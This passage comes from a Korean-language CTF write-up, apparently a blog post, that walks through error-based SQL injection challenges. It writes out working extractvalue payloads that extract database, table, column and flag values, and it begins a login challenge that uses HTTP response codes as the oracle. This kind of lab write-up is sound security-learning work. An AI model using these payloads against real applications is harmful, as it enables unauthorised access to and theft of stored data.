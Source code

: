 **Error Based SQL Injection을 통해 데이터베이스 이름(`sqli_2`)을 성공적으로 추출**할 수 있었다.

이제 이 정보를 바탕으로, **해당 데이터베이스 내의 테이블, 컬럼, 그리고 최종 데이터까지** 순차적으로 추출할 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

테이블 이름까지 성공적으로 추출하였다. 이제 해당 테이블에서 컬럼명을 추출해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2' and table_name='flag_table' limit 0,1))) and '1'='1
```

> 컬럼 이름: **flag**

이제 마지막으로, 이 컬럼에 저장된 **flag 값**을 추출해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select flag from flag_table limit 0,1))) and '1'='1
```

![sqli3 flag](/assets/web-screenshots/blind-error-based-sqli/sqli3_flag.png)

**이렇게 해서 최종적으로 flag 값을 성공적으로 획득하였다.**

---

### SQL Injection 4 (Error Based SQLI)

이번 문제 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

똑같이 문제에서 준 아이디/비번으로 로그인을 시도하니 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 통해 **로그인 여부를 HTTP 응답 코드로 판별할 수 있음**을 알 수 있다.

우선, SQL 인젝션이 가능한지 확인하기 위해 간단한 테스트를 진행하였다.

아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이번에도 **Error Based SQL Injection** 기법을 사용하여 공격을 시도할 것이다.

```sql
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```
